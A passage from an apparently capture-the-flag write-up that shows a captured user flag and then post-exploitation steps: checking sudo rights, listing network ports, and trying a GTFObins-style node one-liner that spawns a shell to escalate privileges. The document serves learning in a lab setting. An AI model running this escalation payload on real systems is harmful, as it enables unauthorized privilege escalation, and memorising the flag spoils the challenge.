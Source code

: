 ![](./IMG/27.png)
- Get user flag: 
```
efb050a18748846297ea131034dadb4a
```
![](./IMG/28.png)

## Post Exploitation 

- Check sudo permission 
```
sudo -l 
```
- The user angoose can use /usr/bin/node to execute the js file in /usr/local/scripts/

![](./IMG/29.png)
- Check network state
```
netstat -tunlp 
```

![](./IMG/30.png)
- According to sudo permission result, I check [GTFObins](https://gtfobins.github.io/gtfobins/node/) first.
- Using the following payload to escalate
```
node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'

```
- But the user still is angoose
